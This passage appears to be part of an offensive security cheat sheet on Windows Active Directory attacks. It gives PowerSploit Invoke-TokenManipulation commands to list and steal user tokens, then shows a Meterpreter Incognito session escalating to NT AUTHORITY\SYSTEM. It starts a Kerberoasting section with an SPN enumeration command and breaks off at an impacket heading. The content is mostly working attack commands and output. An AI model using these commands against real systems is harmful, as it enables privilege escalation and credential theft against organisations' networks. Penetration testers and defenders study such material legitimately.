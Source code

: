 #### Token Impersonation

> The Impersonation token technique allows to impersonate a user by stealing his token, this token allows to exploit this technique because of the SSO processes, Interactive Logon, process running...

> using [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) :

_list tokens_

```
# Show all tokens
Invoke-TokenManipulation -ShowAll
# show usable tokens
Invoke-TokenManipulation -Enumerate
```

_Start a new process with the token of a user_

```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

_process token manipulation_

```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe -ProcessId $id
```

> using [Incognito](https://github.com/FSecureLABS/incognito) :

_load incognito and list tokens :_

```
meterpreter > use incognito
meterpreter > list_tokens -g
```

_impersonate token of "NT AUTHORITY\SYSTEM" :_

```
meterpreter > getuid
Server username: job\john
meterpreter > impersonate_token "BUILTIN\Administrators"
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### Kerberoasting

**Enumerate kerberoastable user**

```
Get-DomainUser -SPN | select name,serviceprincipalname
```

> using [impacket](https://github.com/SecureAuthCorp/impacket) :
